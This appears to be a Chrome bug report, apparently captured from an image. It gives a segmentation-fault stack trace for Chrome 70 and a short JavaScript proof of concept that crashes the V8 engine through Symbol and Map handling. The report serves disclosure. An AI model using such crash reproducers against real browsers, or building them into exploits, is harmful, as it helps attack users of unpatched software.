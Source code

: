 <b>-------------------------</b>

<b>VULNERABILITY DETAILS</b>
Received signal 11 SEGV_ACCERR 000052f83330



==== C stack trace ===============================



 [0x00005673d81c]

 [0x0000595d4638]

 [0x0000f777bbd0]

 [0x00005803193f]

 [0x000056d5f6be]

 [0x00005819a976]

 [0x000058fbe715]

 [0x000058fbd8ff]

 [0x000058f88df0]

 [0x000070afa938]

 [0x000058f8a621]

 [0x0000f518209c]

 [0x0000578c11f9]

 [0x0000578c0246]

 [0x000056887bee]

 [0x0000567de4d3]

 [0x00005680c30a]

 [0x00005681567e]

 [0x00005681c9cc]

 [0x00005681e684]

 [0x0000f7246637]

[end of stack trace]


<b>VERSION</b>
Chrome Version: [70.0.3538.110] + [stable]
<b>Operating System: [Please indicate OS, version, and service pack level]</b>

<b>REPRODUCTION CASE</b>
poc.js:
try { var arrayid0 = Object.getOwnPropertySymbols( Math.constructor.__proto__ ); } catch (e) { }
try { var numberid1 = new Number([]); } catch (e) { }
try { const mapid1 = new Map([ [arrayid0[numberid1].description, 6] ]); } catch (e) { }

